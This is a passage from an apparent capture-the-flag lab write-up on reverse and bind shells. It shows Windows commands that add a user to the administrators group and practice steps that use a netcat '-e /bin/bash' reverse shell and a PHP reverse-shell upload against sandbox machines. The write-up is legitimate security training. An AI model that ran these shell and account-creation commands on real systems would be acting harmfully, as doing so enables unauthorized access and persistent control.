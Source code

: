 The syntax for this is as follows:
```bash
net user <username> <password> /add
net localgroup administrators <username> /add
```

##### The important take away from this task:
Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.
```
Read the above information
> No answer needed
```

## Task 13 - Practice and Examples 

This room contained a lot of information, and gave you little opportunity to put it into practice throughout. The following two tasks contain virtual machines (one Ubuntu 18.04 server and one Windows server), each configured with a simple webserver with which you can upload and activate shells. This is a sandbox environment, so there will be no filters to bypass. Login credentials and instructions for each will also be given, should you wish to log in to practice with netcat, socat or meterpreter shells.

The remainder of this task will consist of shell examples for you to try out on the practice boxes.
```
Try uploading a webshell to the Linux box, then use the command: nc   -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.
> No answer needed
```

```
Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.
> No answer needed
```

```
Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.
> No answer needed
```

```
Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.
> No answer needed
```

```
Look through Payloads all the Things and try some of the other reverse shell techniques. Try to analyse them and see why they work.
> No answer needed
```

```
Switch to the Windows VM. Try uploading and activating the php-reverse-shell. Does this work?
> No answer needed
```
